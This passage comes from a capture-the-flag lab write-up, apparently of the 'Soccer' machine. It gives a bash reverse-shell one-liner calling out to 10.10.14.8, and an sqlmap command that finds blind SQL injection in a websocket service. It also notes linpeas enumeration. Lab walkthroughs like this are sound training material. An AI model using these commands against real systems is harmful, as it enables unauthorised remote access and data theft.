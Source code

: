 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910145104.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910145132.png)

now quick one liner to get reverse shell

```
bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910145218.png)

cant find easy wins to switch user so run linpeas and found 
Doas Configuration maybe for later 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910150004.png)

3 intersting local port 2 looks like mysql

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910152005.png)

and new subdomain, good place to start

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910150045.png)

simmilar page but we can login and register

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910150600.png)

Created account

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910150547.png)

after login we got sth like that maybe sql injection

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910150657.png)

App is using websocket 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910154411.png)

tested for sql injection

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910154609.png)

Now let's start sqlmap websocket module

```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --batch --risk 3 --level 5 --threads 10
```

and sqlmap found boolean-base blind injection

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910155425.png)
